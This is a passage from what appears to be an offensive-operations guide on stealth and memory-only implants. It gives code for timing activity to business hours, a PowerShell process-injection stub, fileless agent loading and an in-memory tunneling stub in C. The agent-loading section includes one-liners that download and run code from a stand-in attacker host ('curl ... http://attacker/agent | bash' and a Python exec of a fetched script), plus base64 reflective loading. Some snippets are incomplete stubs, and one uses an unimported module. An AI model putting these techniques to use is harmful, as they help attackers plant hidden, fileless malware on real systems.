 ```python
import datetime

def is_business_hours():
    now = datetime.datetime.now()
    return (now.weekday() < 5 and 
            9 <= now.hour <= 17)

def wait_for_business_hours():
    while not is_business_hours():
        time.sleep(3600)  # Check every hour
```

#### Process Injection for Stealth:

```powershell
# PowerShell process injection
$code = @"
[DllImport("kernel32.dll")]
public static extern IntPtr OpenProcess(uint dwDesiredAccess, bool bInheritHandle, uint dwProcessId);
"@

Add-Type -MemberDefinition $code -Name Win32 -Namespace Win32Functions
```

### 14.3 Memory-Only Operations

#### Fileless Agent Deployment:

```bash
# Linux memory execution
curl -s http://attacker/agent | bash

# PowerShell reflective loading
$bytes = [System.Convert]::FromBase64String($agent_b64)
$assembly = [System.Reflection.Assembly]::Load($bytes)
$assembly.EntryPoint.Invoke($null, @(,$args))

# Python bytecode execution
exec(compile(requests.get('http://attacker/agent.py').text, '<string>', 'exec'))
```

#### In-Memory Tunneling:

```c
// C implementation for memory-resident tunneling
#include <windows.h>
#include <winsock2.h>

DWORD WINAPI TunnelThread(LPVOID lpParam) {
    // Socket creation and traffic relay in memory
    SOCKET sock = socket(AF_INET, SOCK_STREAM, 0);
    // Implementation details...
    return 0;
}

int main() {
    CreateThread(NULL, 0, TunnelThread, NULL, 0, NULL);
    return 0;
}
```
